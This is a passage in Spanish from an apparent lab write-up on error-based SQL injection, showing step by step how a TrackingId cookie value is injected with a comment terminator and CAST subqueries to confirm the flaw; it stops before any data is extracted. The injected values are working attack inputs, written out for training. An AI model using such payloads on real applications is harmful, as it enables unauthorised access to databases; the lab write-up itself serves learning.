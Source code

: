Usando un comentario SQL `--`, se cierra el resto de la consulta y se estabiliza el SQL.

```sql
TrackingId=CxmtB9zLb0W6zdha'--
```

Esto elimina el error y confirma la vulnerabilidad.

![](/assets/img/ps-writeup-sqli/ps-lab13_5.png)

Al probar con una subconsulta que devuelve un número. Se obtiene un error indicando que la cláusula `AND` necesita un valor booleano y no un entero.

```sql
TrackingId=CxmtB9zLb0W6zdha' and cast((select 1) as int)--
```

![](/assets/img/ps-writeup-sqli/ps-lab13_6.png)

Corrigiendo la condición lógica, la aplicación responde sin errores, confirmando que las subconsultas son válidas

```sql
TrackingId=CxmtB9zLb0W6zdha' and 1=cast((select 1) as int)--
```
